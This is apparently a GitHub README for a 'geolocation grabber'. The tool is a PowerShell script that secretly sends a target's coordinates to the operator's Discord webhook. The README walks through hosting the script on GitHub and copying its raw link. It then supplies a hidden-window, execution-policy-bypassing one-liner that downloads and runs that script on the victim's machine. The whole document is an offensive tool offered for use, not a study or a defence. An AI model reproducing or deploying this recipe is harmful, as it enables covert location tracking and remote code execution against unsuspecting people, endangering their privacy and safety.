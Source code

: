 # geoloaction-grabber
sends the coordinates of the target to your discord server via webhook
<p><p/>
<p><p/>
<p>download geolocationgraber.ps1.txt<p/>
<p>edit and replace WEBHOOK_HERE with your webhook url<p/>
<p>save <p/>
<p>crate a new repo in public <p/>
<p>add file <p/>
<p> ![alt text]github.com/quazi00/geoloaction-grabber/tree/main/images/image1<p/>
<p>put geolocationgraber.ps1.txt in and commit changes <p/>
<p>click geolocationgraber.ps1.txt<p/>
<p> ![alt text]github.com/quazi00/geoloaction-grabber/tree/main/images/image2 <p/>
<p>click the pen<p/>
<p>del .txt<p/>
<p> ![alt text]github.com/quazi00/geoloaction-grabber/tree/main/images/image3<p/>
<p>commit changes <p/>
<p>you should be left with geolocationgraber.ps1<p/>
<p>click it<p/>
<p> ![alt text]github.com/quazi00/geoloaction-grabber/tree/main/images/image4<p/>
<p>click raw<p/>
<p>copy that link <p/>
<p><p/>
<p>paste that link in the line below where it says paste here <p/>
<p><p/>
<p> ```powershell -w h -NoP -NonI -Exec Bypass iwr PASTE HERE | iex``` <p/>
<p><p/>
